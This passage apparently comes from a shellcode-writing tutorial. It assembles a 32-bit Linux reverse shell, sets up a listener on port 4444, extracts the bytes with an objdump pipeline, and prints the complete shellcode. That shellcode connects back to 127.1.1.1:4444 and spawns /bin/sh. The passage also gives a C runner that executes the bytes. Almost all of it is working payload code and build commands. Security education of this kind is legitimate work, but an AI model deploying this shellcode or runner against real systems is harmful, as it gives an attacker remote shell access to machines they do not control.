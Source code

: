 ### testing

Now, as in the first part, let's assemble it and check if it properly works and does not contain any null bytes:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](./images/14/2021-10-16_13-53.png){width="80%"}       

![compile shellcode 2](./images/14/2021-10-16_13-57.png){width="80%"}       

Prepare listener on `4444` port and run:
```bash
./rev
```

![compile shellcode 2](./images/14/2021-10-16_14-08.png){width="80%"}       

Perfect!

Then, extract byte code via some bash hacking and `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](./images/14/2021-10-16_13-58.png){width="80%"}       

So, our shellcode is:            
```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```
